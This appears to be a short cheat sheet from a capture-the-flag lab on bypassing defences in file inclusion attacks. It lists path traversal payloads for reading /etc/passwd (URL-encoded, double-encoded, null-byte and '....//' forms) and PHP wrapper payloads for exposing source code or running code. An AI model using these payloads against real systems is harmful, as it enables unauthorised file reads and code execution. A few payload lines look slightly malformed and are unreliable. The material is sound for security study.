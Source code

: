 Here are some common techniques for bypassing defenses in File Inclusion attacks:

## Bypassing Input Validation Filters
   - Filters may block certain keywords like `/`, `.` or `http`. Use encoding techniques to bypass these filters:
     - URL Encoding:
       ```
       %2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
       ```
     - Double URL Encoding:
       ```
       %252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
       ```

## Bypassing File Extension Validation
   - Some applications validate file extensions but do not validate file paths. You can often bypass these filters using null byte injection (`%00`) or adding extensions to the path.
   - Example:
     ```
     ../../../../etc/passwd%0.jpg
     ../../../../etc/passwd%00.jpg
     ```

## Using PHP Wrappers for LFI
   - PHP supports wrappers that can be used to bypass filters or execute code via file inclusion:
   - `php://input`:
     ```
     http://<target_domain>/vulnerable.php?file=php://input
     ```
   - `php://filter`:
     ```
     http://<target_domain>/vulnerable.php?file=php://filter/convert.base64-encode/resource=index.php
     ```

## Data Sanitization Padding
   - Developers may use input validation by filtering keywords to prevent access.
   - Entry
     ```
     http://webapp.thm/index.php?lang=../../../../etc/passwd
     ```
   - Error Message Example
     ```
     Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15
     ```
   - Exploit
     ```
     ..php?file=example....//....//....//….//etc/passwd
     ```
This works because the PHP filter only matches and replaces the first subset string ../ it finds and doesn't do another pass, leaving what is pictured below.
